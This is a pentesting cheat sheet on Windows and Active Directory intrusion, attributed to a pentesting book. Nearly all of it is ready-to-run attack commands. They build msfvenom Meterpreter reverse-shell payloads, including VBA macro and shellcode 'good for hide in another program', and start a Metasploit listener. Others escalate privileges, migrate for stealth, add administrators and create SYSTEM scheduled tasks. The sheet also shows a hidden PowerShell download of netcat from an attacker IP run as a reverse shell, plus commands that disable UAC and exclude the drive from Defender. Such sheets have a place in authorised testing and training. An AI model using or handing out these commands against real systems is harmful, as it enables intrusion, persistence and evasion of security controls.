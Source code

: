 VBA MSF:

    msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=9988 -f vba-exe
    msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=9988 -f vba-psh

Generate payload:

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -e x86/shikata_ga_nai -f exe > payload.exe

Use listener:

    msfconsole -q -x "set payload windows/meterpreter/reverse_tcp;use exploit/multi/handler;set LHOST 192.168.1.1;set LPORT 4444;set ExitOnSession false;exploit -j;"

Inteactions with sessions:

    session -i 1  (means interact with session 1)
    shell (Launches cmd on victim machine)
    bg (backgrounding current meterpreter session)

PrivEsc Tool:

    run post/multi/recon/local_exploit_suggester
    set SESSIOS 1
    load incognito
    list tokens -u 

Stealthy Operations:

    migrate -N explorer.exe
    run post/windows/manage/migrate

VBA PowerShell Dropper
VBA Powercat

adding user to administrator group:
    
    cmd.exe /k net localgroup administrators user /add

restarting service:
    
    sc stop svcname & sc start svcname

command for compile on kali linux:

    x86_64-w64-mingw32-gcc yourcode.c -shared -o yourdllfile.dll

create scheduled task with cmd
    
    schtasks /create /tn "SecurityStartup" /tr "C:\pathtoprogram.exe" /sc ONSTART /ru SYSTEM /rl HIGHEST /f

create a meterpreter shellcode for single line good for hide in the another program

    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=<YOUR_PORT> -f c | tr -d '\n' | sed 's/ //g'

runas.exe

    net users
    runas /user:usernameofvictim "cmd.exe"
    runas /user:Machinename\usernameofvictim "cmd.exe"

Powershell history file in environment

    cat $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

drop nc.exe (Netcat) Attacker machine and executes as a background command:

    powershell -Command "$out = Join-Path $env:Temp 'nc.exe'; Invoke-WebRequest -Uri 'http://192.168.1.10/nc.exe' -OutFile $out; Start-Process $out -ArgumentList '192.168.1.65 55522 -e powershell' -WindowStyle Hidden"

disable UAC with PowerShell command 

    Set-ItemProperty -Path REGISTRY::HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System -Name ConsentPromptBehaviorAdmin -Value 0


DisableUAC.reg

        Windows Registry Editor Version 5.00

        [HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System]
        "ConsentPromptBehaviorAdmin"=dword:00000000

ExclusionPath.bat

    powershell.exe -command "Add-MpPreference -ExclusionPath C:\"


### Based on "Isakov D Pentesting Active Directory and Windows based Infrastructure.pdf" 
